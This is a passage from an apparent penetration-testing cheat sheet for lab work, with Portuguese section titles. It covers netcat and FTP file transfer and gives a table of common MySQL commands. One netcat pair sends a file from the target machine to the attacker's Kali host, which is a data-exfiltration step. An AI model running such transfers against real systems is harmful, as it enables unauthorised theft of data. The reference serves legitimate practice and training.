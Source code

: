 ## 20. With nc - Linux

```bash
kali@kali: > nc -nlvp 4646 > file.f
target@10.10.10.10: > nc <KaliIp> 4646 < file.f
```

## 21. FTP Partilhado / montado

```bash
kali@kali: > curlftpfs anonymous:senhalol@10.10.10.78 $(pwd)
```

# 7. SQL

## 22. MySQL

| **Command** | **Description** |
| --- | --- |
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |